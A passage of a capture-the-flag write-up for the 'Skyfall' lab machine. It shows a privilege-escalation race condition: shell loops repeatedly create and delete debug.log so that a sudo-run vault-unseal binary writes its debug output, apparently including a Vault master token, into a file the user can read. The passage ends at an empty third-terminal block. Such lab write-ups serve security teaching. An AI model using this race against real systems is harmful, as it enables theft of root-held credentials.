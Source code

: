 ```bash
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[-] Master token found in config: ****************************
[>] Enable 'debug' mode for details
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
```

Its saying that the master token was found in config but I don't have access to read it:

```bash
askyy@skyfall:~$ cat /etc/vault-unseal.yaml 
cat: /etc/vault-unseal.yaml: Permission denied
```

The `-d` parameter creates a debug.log in the current directory:

```bash
askyy@skyfall:/tmp$ ls -a
.           .X11-unix         systemd-private-2a289f2479f84c67a890f0d7c7d580c6-systemd-logind.service-6IF9X1
..          .XIM-unix         systemd-private-2a289f2479f84c67a890f0d7c7d580c6-systemd-resolved.service-g7qYCh
.ICE-unix   .font-unix        systemd-private-2a289f2479f84c67a890f0d7c7d580c6-systemd-timesyncd.service-DjNSEM
.Test-unix  snap-private-tmp  vmware-root_522-2965382515
askyy@skyfall:/tmp$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -d
[>] Checking seal status
[+] Vault sealed: false
askyy@skyfall:/tmp$ ls -a
.          .Test-unix  .font-unix        systemd-private-2a289f2479f84c67a890f0d7c7d580c6-systemd-logind.service-6IF9X1     vmware-root_522-2965382515
..         .X11-unix   debug.log         systemd-private-2a289f2479f84c67a890f0d7c7d580c6-systemd-resolved.service-g7qYCh
.ICE-unix  .XIM-unix   snap-private-tmp  systemd-private-2a289f2479f84c67a890f0d7c7d580c6-systemd-timesyncd.service-DjNSEM
```

But I can't read it because permissions:

```bash
askyy@skyfall:/tmp$ ls -l debug.log 
-rw------- 1 root root 555 Aug 22 15:40 debug.log
askyy@skyfall:/tmp$ cat debug.log 
cat: debug.log: Permission denied
```

However, if the file is removed before writing it, its possible to make a race condition, where if a file `debug.log` its created before vault-unseal writes to it, I will be able to see the contents because it will be owned by me and root will just modify it. For that I need three terminals, one to create the debug.log, other to cat it in a loop and the other to execute the vault-unseal command.

**First terminal**:
```bash
askyy@skyfall:/tmp$ mkdir racecondition
askyy@skyfall:/tmp$ cd racecondition/
askyy@skyfall:/tmp/racecondition$ while true; do touch debug.log 2>/dev/null; rm debug.log; done
```

**Second terminal**:
```bash
askyy@skyfall:/tmp$ while true; do cat /tmp/racecondition/debug.log 2>/dev/null; done
```

**Third terminal**:

```bash
```